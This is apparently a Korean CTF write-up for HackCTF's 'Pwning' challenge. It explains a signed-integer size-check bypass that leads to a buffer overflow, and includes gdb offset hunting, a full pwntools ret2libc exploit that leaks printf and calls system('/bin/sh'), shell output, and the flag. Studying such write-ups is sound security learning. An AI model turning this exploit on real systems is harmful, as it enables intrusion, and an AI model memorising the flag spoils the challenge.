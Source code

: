 #Pwning

---

우선 `main()`의 코드를 보자.

<pre>
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdout, 0, 2, 0);
  return vuln();
}
</pre>

취약하다고 하는 함수 `vuln()`가 존재한다. 이 함수의 코드를 살펴보자.

<pre>
int vuln()
{
  char nptr; // [esp+1Ch] [ebp-2Ch]
  int v2; // [esp+3Ch] [ebp-Ch]

  printf("How many bytes do you want me to read? ");
  get_n((int)&nptr, '\x04');
  v2 = atoi(&nptr);
  if ( v2 > 32 )
    return printf("No! That size (%d) is too large!\n", v2);
  printf("Ok, sounds good. Give me %u bytes of data!\n", v2);
  get_n((int)&nptr, v2);
  return printf("You said: %s\n", &nptr);
}
</pre>

`vuln()`에서 보면 몇 bytes만큼 문자열을 입력 받을 것인지를 우선 입력받고 32bytes이하의 크기라면 입력을 받고, 그 이상이라면 return시킨다. 입력받는 공간의 위치가 [ebp-0x2c]이기 때문에 32bytes로는 ret주소를 덮어쓸 수 없다. 때문에 이 문제에서는 취약점이 존재하지 않는 것으로 보일 수도 있다.

하지만, if문을 checking하는 변수인 v2의 자료형을 보면 int형이다. 때문에 -1을 입력한다면 `atoi()`를 거쳐서 underflow로 인해서 2^31-1만큼의 bytes를 입력할 수 있는 것이다. 이를 이용해서 쉘을 따보도록 하자.

---

익스 시나리오는 다음과 같다. `printf()`를 이용해서 `printf()`의 got에 적힌 주소, 즉 `printf()`의 주소를 leak한 다음 offset을 이용해서 `system()`의 위치와 "/bin/sh"문자열의 위치를 구할 것이다. 이후 다시 `vuln()`로 이동하여 얻은 정보를 바탕으로 system("/bin/sh")를 실행시켜 쉘을 따낼 것이다. 이를 위한 정보는 다음과 같다.

**printf\_offset <br>
system\_offset <br>
binsh\_offset <br>
printf\_plt <br>
printf\_got <br>
pop\_ret\_address <br>
vuln\_address**

하나씩 구해보면 다음과 같다.

<pre>
gdb-peda$ p printf
$1 = {<text variable, no debug info>} 0xf7e4d670 <__printf>
gdb-peda$ p system
$2 = {<text variable, no debug info>} 0xf7e3eda0 <__libc_system>
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f5fa0b ("/bin/sh")
gdb-peda$ vmmap
Start      End        Perm	Name
0x08048000 0x08049000 r-xp	/home/sjy0175/Desktop/HackCTF/Pwnable/20.Pwning/pwning
0x08049000 0x0804a000 r--p	/home/sjy0175/Desktop/HackCTF/Pwnable/20.Pwning/pwning
0x0804a000 0x0804b000 rw-p	/home/sjy0175/Desktop/HackCTF/Pwnable/20.Pwning/pwning
0xf7e03000 0xf7e04000 rw-p	mapped
0xf7e04000 0xf7fb4000 r-xp	/lib/i386-linux-gnu/libc-2.23.so
0xf7fb4000 0xf7fb6000 r--p	/lib/i386-linux-gnu/libc-2.23.so
0xf7fb6000 0xf7fb7000 rw-p	/lib/i386-linux-gnu/libc-2.23.so
0xf7fb7000 0xf7fba000 rw-p	mapped
0xf7fd3000 0xf7fd4000 rw-p	mapped
0xf7fd4000 0xf7fd7000 r--p	[vvar]
0xf7fd7000 0xf7fd9000 r-xp	[vdso]
0xf7fd9000 0xf7ffc000 r-xp	/lib/i386-linux-gnu/ld-2.23.so
0xf7ffc000 0xf7ffd000 r--p	/lib/i386-linux-gnu/ld-2.23.so
0xf7ffd000 0xf7ffe000 rw-p	/lib/i386-linux-gnu/ld-2.23.so
0xfffdd000 0xffffe000 rw-p	[stack]
gdb-peda$ p 0xf7e4d670-0xf7e04000
$3 = 0x49670
gdb-peda$ p 0xf7e3eda0-0xf7e04000
$4 = 0x3ada0
gdb-peda$ p 0xf7f5fa0b-0xf7e04000
$5 = 0x15ba0b
</pre>

**printf\_offset=0x49670 <br>
system\_offset=0x3ada0 <br>
binsh\_offset=0x15ba0b**

<pre>
gdb-peda$ x/i 0x8048370
   0x8048370 <printf@plt>:	jmp    DWORD PTR ds:0x804a00c
</pre>

**printf\_plt=0x8048370** <br>
**printf\_got=0x804a00c**

<pre>
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/20.Pwning$ objdump -d pwning | grep -B2 "ret"
...
 8048676:	5b                   	pop    %ebx
 8048677:	c3                   	ret
</pre>

**pop\_ret\_address=0x8048676**


    gdb-peda$ p vuln
    $1 = {<text variable, no debug info>} 0x804852f <vuln>

**vuln\_address=0x804852f**

이를 토대로 코드를 짜면 다음과 같다.

<pre>
rom pwn import*

p=process('./pwning')
#p=remote('ctf.j0n9hyun.xyz', 3019)

printf_offset=0x49670
system_offset=0x3ada0
binsh_offset=0x15ba0b
printf_plt=0x8048370
printf_got=0x804a00c
pop_ret_address=0x8048676
vuln_address=0x804852f

p.recvuntil('? ')

p.sendline('-1')

p.recvline()

payload='A'*48
payload+=p32(printf_plt)
payload+=p32(pop_ret_address)
payload+=p32(printf_got)
payload+=p32(vuln_address)

p.sendline(payload)

p.recvline()

printf_address=u32(p.recv(4))

log.info("printf_address is "+hex(printf_address))

####

libc_base=printf_address-printf_offset
system_address=libc_base+system_offset
binsh_address=libc_base+binsh_offset

log.info("system_address is "+str(hex(system_address)))

####

p.recvuntil('? ')

p.sendline('-1')

p.recvline()

payload2='A'*48
payload2+=p32(system_address)
payload2+='AAAA'
payload2+=p32(binsh_address)

p.sendline(payload2)

p.interactive()
</pre>

이를 통해서 로컬 익스플로잇에 성공했다.

<pre>
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/20.Pwning$ python ex.py
[+] Starting local process './pwning': pid 5493
[*] printf_address is 0xf7de8670
[*] system_address is 0xf7dd9da0
[*] Switching to interactive mode
You said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa0\x9d��AAAA\x0b\xaa��
$ whoami
sjy0175
</pre>

하지만 서버 익스플로잇은 실패하였다. 그 이유는 libc파일이 달라서 offset값이 정확하지 않기 때문이다. 이는 Gift문제에서와 같이 웹사이트에서 함수 끝 3bytes를 통해서 어떤 libc파일을 쓰는지 알아내어 정확한 offset을 구할 수 있다. 그 offset값은 다음과 같다.

**printf\_offset=0x49020 <br>
system\_offset=0x3a940 <br>
binsh\_offset=0x15902b**

다음과 같이 익스에 성공할 수 있었다.

<pre>
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/20.Pwning$ python ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3019: Done
[*] printf_address is 0xf7e32020
[*] system_address is 0xf7e23940
[*] Switching to interactive mode
You said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@9��AAAA+ ��
$                                                                    whoami
attack
$ cat flag
HackCTF{b34u71ful_5un5h1n3_pwn1n6}
</pre>

**flag: HackCTF{b34u71ful_5un5h1n3_pwn1n6}**